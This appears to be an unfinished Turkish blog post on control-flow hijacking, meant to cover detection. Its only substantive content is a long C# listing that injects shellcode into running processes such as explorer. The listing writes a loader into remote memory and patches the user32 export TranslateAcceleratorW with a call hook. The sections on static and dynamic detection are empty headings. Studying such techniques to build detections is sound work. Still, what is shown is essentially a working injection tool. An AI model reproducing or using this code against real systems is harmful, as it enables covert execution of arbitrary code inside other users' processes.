 ```yaml
---
layout: post
title: "Control Flow Hijacking Analysis and Detection"
categories: blue
---
```


Selam bugün staj kabulüm için araştırdığım ve kendisi için tespit mekanizmaları geliştirmeye çalışacağım control flow hijacking konusunu irdeleyeceğiz.

## İÇERİKLER
1. [Nedir bu Control Flow Hijacking, diğerlerinden farkı ne ?](#nedir-bu-control-flow-hijacking-diğerlerinden-farkı-ne-)
2. [Basit Bir Saldırı Örneği](#basit-bir-saldırı-örneğ)
3. [Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
4. [Karmaşık Bir Saldırı Örneği](#karmaşık-bir-saldırı-örneği)
5. [Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları](#basit-saldırı-örneğine-karşı-statik-ve-dinamik-tespit-mekanizmaları)
6. [Kapanış](#kapanış)


## Nedir bu Control Flow Hijacking, diğerlerinden farkı ne ?

Türkçe "kontrol akışını ele geçirme" şeklinde çevirebiliriz. Anlaşıldığı üzere çook geniş bir saldırı spektrumundan bahsediyoruz bu saldırı türünün içine pwn tarafında bufferoverflow ile stack teki ret adresini ele geçirme yahut heapoverflow ile fonksiyon pointer larının üzerine shellcode adresimizi yazmak girebilir. Malware tarafında ise dümdüz hedef process in thread lerinden birini durdurup kendi ayarladığımız context i yükleyip shellcode umuzu çalıştırmak gibi fikirler bu saldırı vektörü altında toplanabilir. Kısaca programın olağan akışını durdurmak, zehirlemek yada değiştirmek gibi her türlü faaliyeti Control Flow Hijacking altında değerlendirebiliriz.

## Basit Bir Saldırı Örneği
```c
public static void Main(string[] args) {
    string processname = args.Length == 0 ? "explorer" : args[0];
    var showHelp = false;
    string shellcodeStr = null;
    string dll = "user32.dll";
    string export = args.Length == 0 ? "TranslateAcceleratorW" : args[1];
    int[] pids;
    int[] pids_s = getProcIds(processname);
    for(int i = 0; i < pids_s.Length; i++) {
        
    }

    pids = getProcIds(processname);
    Console.WriteLine($"[=] Find {pids.Length} pid with process name: {processname}.exe");
    for (int i = 0; i < pids.Length; i++) {
        Console.WriteLine($"[=] Hijecting pid: {pids[i]}");

        var hModule = GetModuleHandle(dll);

        if (hModule == IntPtr.Zero)
            hModule = LoadLibrary(dll);

        if (hModule == IntPtr.Zero) {
            Console.WriteLine($"[!] Failed to open handle to DLL {dll}, is the KnownDll loaded?");
            return;
        }

        var exportAddress = GetProcAddress(hModule, export);
        if (exportAddress == IntPtr.Zero) {
            Console.WriteLine($"[!] Failed to find export {export} in {dll}, are you sure it's correct?");
            return;
        }

        Console.WriteLine($"[=] Found {dll}!{export} @ 0x{exportAddress.ToInt64():x}");

        var status = OpenProcess(pids[i], out var hProcess);
        if (status != 0 || hProcess == IntPtr.Zero) {
            Console.WriteLine($"[!] Failed to open PID {pids[i]}: {status}.");
            return;
        }

        Console.WriteLine($"[=] Opened process with id {pids[i]}");

        var shellcode = LoadShellcode(shellcodeStr);

        var loaderAddress = FindMemoryHole(
            hProcess,
            (ulong)exportAddress,
            ShellcodeLoader.Length + shellcode.Length);

        if (loaderAddress == 0) {
            Console.WriteLine("[!] Failed to find a memory hole with 2G of export address, bailing");
            return;
        }

        Console.WriteLine($"[=] Allocated loader and shellcode at 0x{loaderAddress:x} within PID {pids[i]}");

        var originalBytes = Marshal.ReadInt64(exportAddress);
        GenerateHook(originalBytes);

        ProtectVirtualMemory(
            hProcess,
            exportAddress,
            8,
            MemoryProtection.ExecuteReadWrite,
            out var oldProtect);

        var relativeLoaderAddress = (int)(loaderAddress - ((ulong)exportAddress + 5));
        var callOpCode = new byte[] { 0xe8, 0, 0, 0, 0 };

        using var ms = new MemoryStream(callOpCode);
        using var br = new BinaryWriter(ms);
        br.Seek(1, SeekOrigin.Begin);
        br.Write(relativeLoaderAddress);

        status = WriteVirtualMemory(
            hProcess,
            exportAddress,
            callOpCode,
            out var bytesWritten);

        if (status != NTSTATUS.Success || (int)bytesWritten != callOpCode.Length) {
            Console.WriteLine($"[!] Failed to write callOpCode: {status}");
            return;
        }

        var payload = ShellcodeLoader.Concat(shellcode).ToArray();
        //WriteProcessMemory(hProcess, (IntPtr)loaderAddress, payload, payload.Length, out _);

        status = ProtectVirtualMemory(
            hProcess,
            (IntPtr)loaderAddress,
            (uint)payload.Length,
            MemoryProtection.ReadWrite,
            out oldProtect);

        if (status != NTSTATUS.Success) {
            Console.WriteLine($"[!] Failed to unprotect 0x{loaderAddress:x}");
            return;
        }

        status = WriteVirtualMemory(
            hProcess,
            (IntPtr)loaderAddress,
            payload,
            out bytesWritten);

        if (status != NTSTATUS.Success || (int)bytesWritten != payload.Length) {
            Console.WriteLine($"[!] Failed to write payload: {status}");
            return;
        }

        status = ProtectVirtualMemory(
            hProcess,
            (IntPtr)loaderAddress,
            (uint)payload.Length,
            oldProtect,
            out _);

        if (status != NTSTATUS.Success) {
            Console.WriteLine($"[!] Failed to protect 0x{loaderAddress:x}");
            return;
        }

        var timer = new Stopwatch();
        timer.Start();
        var executed = false;

        Console.WriteLine("[+] Shellcode injected, Waiting 60s for the hook to be called");

        while (timer.Elapsed.TotalSeconds < 60) {
            var bytesToRead = 8;
            var buf = Marshal.AllocHGlobal(bytesToRead);

            ReadVirtualMemory(
                hProcess,
                exportAddress,
                buf,
                (uint)bytesToRead,
                out var bytesRead);

            var temp = new byte[bytesRead];
            Marshal.Copy(buf, temp, 0, bytesToRead);
            var currentBytes = BitConverter.ToInt64(temp, 0);

            if (originalBytes == currentBytes) {
                executed = true;
                break;
            }

            Thread.Sleep(1000);
        }

        timer.Stop();

        if (executed) {
            ProtectVirtualMemory(
                hProcess,
                exportAddress,
                8,
                oldProtect,
                out _);

            FreeVirtualMemory(
                hProcess,
                (IntPtr)loaderAddress);

            Console.WriteLine($"[+] Shellcode executed after {timer.Elapsed.TotalSeconds}s, export restored");
        }
        else {
            Console.WriteLine("[!] Shellcode did not trigger within 60s, it may still execute but we are not cleaning up");
        }

        CloseHandle(hProcess);
        Console.WriteLine();
        Console.WriteLine();
    }
}
```
## Basit Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Karmaşık Bir Saldırı Örneği

## Karmaşık Saldırı Örneğine Karşı Statik ve Dinamik Tespit Mekanizmaları

## Kapanış